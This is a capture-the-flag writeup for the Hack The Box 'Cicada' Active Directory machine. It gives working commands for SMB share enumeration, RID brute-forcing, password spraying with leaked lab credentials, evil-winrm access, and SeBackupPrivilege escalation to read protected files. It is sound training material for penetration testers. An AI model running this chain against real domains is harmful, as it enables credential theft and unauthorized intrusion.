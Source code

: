 This is a writeup for recently expired Cicada machine in Hackthebox platform.

### Part one: Scanning and Enumeration

Let’s begin with an nmap scan, so that we know which service are running and where to start.

```
nmap -Sv -Sc 10.10.11.27
```

![NMAP](/static/writeups/Cicada/0.png)

We can see many services are running and machine is using Active Directory service and there are many service to fiddle with. I am going to start with samba and enumerate shares using smbclient:

> smbclient -N -L $TAR, (TAR means target ip:TAR=10.10.11.35)

![NMAP](/static/writeups/Cicada/1.png)

let’s check if we can login with guest account or not, and if yes what permission we have using netexec:

> nxc smb 10.10.11.35 -u ‘a’ -p ‘’ — shares

![NMAP](/static/writeups/Cicada/2.png)

I can read HR and $IPC share, lets see HR contents using smbclient. there is a file called ‘Notice from Hr.txt’

![NMAP](/static/writeups/Cicada/3.png)

![NMAP](/static/writeups/Cicada/4.png)

It contains password for default user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it.  
 Now with a password in hand, lets find some usernames so, we can use password we found earlier. As it is active directory we can Enumerate Users by Bruteforcing RID using Netexec:

> sudo nxc smb $TAR -u guest -p ‘’ — rid-brute

![NMAP](/static/writeups/Cicada/5.png)

We can find many user from this command, lets keep note of it. let’s use previously found password from ‘Notice from HR.txt’ and use these user to see if any username matches with password.  
 we can use netexec for this also.

> sudo nxc smb $TAR -u user.txt -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — continue-on-success

![NMAP](/static/writeups/Cicada/6.png)

We can see user ‘michael.wrightson’ matches with that pasword. lets use these credentials in Netexec to see what permission we have on share with this account.

> nxc smb 10.10.11.35 -u ‘michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’ — shares

Nothing interesting same permission as guest account so, lets use ldapdomaindump using michael to find some more information.

> ldapdomaindump 10.10.11.35 -u ‘cicada\michael.wrightson’ -p ‘Cicada$M6Corpb\*@Lp#nZp!8’

![NMAP](/static/writeups/Cicada/7.png)

We find that David Orelius left his password in description: ‘aRt$Lp#7t\*VQ!3’. lets use the credentials in Netexec to see what permission we have on share with this account.

![NMAP](/static/writeups/Cicada/8.png)

david can access dev share lets see what is in there using smbclient

> smbclient -U david.orelious //$TAR/DEV

![NMAP](/static/writeups/Cicada/9.png)

there is file called backup_script.ps1 which contains emily.oscars password: ‘Q!3@Lp#M6b*7t*Vt’. Lets see what permission we have on share using these credentials using NetExec:

> nxc smb 10.10.11.35 -u ‘emily.oscars’ -p ‘Q!3@Lp#M6b*7t*Vt’ — shares

![NMAP](/static/writeups/Cicada/10.png)

emily can read all share except DEV and have write access in C$ share.

### Part Two: Finding Foothold

Accessing c$ share using emily account and pivoting here and there we can see that there is file called user.txt in Desktop folder ‘C:\Users\emily.oscars.cicada\Desktop’ from where we are able to get user flag.

Using evil-winrm with emily account, we are able to get shell in the machine.

> sudo evil-winrm -i $TAR -u emily.oscars -p ‘Q!3@Lp#M6b*7t*Vt’

![NMAP](/static/writeups/Cicada/11.png)

and using net user emily.oscars, we can see that emily is part of backup_operators group.

lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory.

![NMAP](/static/writeups/Cicada/12.png)

But we cannot download or access that file with emily.

### Part Three: Privilege Escalation

As a built-in AD groups, **Backup operators** can log into a computer and shut it down. Can create backup of local files regardless of permission on that file. NTDS.DIT can be cloned.  
 lets look for a way to escalate privilege in order to read ‘root.txt’. by googling for a while i found a way to escalate privilege of emily.oscars [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, we are able to copy and access file that high level user like admin can access.

![NMAP](/static/writeups/Cicada/13.png)

We can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above we can escalate privilege and copy it to directory with write permission using this command:

> Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt

![NMAP](/static/writeups/Cicada/14.png)

and we are able to get root flag like this:

![NMAP](/static/writeups/Cicada/15.png)

cheers!!

![](/static/writeups/Cicada/cicadaa.png)
